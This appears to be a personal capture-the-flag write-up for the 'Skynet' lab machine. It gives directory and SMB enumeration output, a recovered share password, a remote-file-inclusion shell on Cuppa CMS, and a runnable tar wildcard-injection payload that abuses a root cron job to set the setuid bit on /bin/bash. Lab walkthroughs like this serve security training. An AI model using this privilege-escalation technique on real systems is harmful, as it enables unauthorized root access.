 # Skynet

# Gobuster results
```
Found 
/admin
/config
/ai

Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.19.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/08/21 02:47:10 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 308] [--> http://10.10.19.2/admin/]
/css                  (Status: 301) [Size: 306] [--> http://10.10.19.2/css/]  
/js                   (Status: 301) [Size: 305] [--> http://10.10.19.2/js/]   
/config               (Status: 301) [Size: 309] [--> http://10.10.19.2/config/]
/ai                   (Status: 301) [Size: 305] [--> http://10.10.19.2/ai/] 

```

# SMBMap results

```
└─$ smbmap -H 10.10.19.2                                                                                                                                2 ⨯
[+] Guest session       IP: 10.10.19.2:445      Name: 10.10.19.2                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        anonymous                                               READ ONLY       Skynet Anonymous Share
        milesdyson                                              NO ACCESS       Miles Dyson Personal Share
        IPC$                                                    NO ACCESS       IPC Service (skynet server (Samba, Ubuntu))
```

# Connecting to anonymous gave us an email password for milesdyson. 
# squirrelmail can be found at the website.
# password reset email send to miles.
# ")s{A&2Z=F^n_E.B`" is is new password for his samba share.

# Found hidden website directory
    /45kra24zxs28v3yd

# Ran GoBuster on this directory and found
#   /administrator

# Cuppa CMS is vulnerable to a RFI attack.
# Got a shell via RFI using a PHP reverse shell.

# wget linpeas

# linpeas found this
#    */1 *   * * *   root    /home/milesdyson/backups/backup.sh

# we can exploit the wildcard '*' in the backup.sh script which copies all files from
#   /var/www/html and zips them. by creating files using the below script we can get the root cron
#   job to give /bin/bash a set uid bit.

printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch "/var/www/html/--checkpoint=1"

# after this runs, we're root if we do '/bin/bash -p'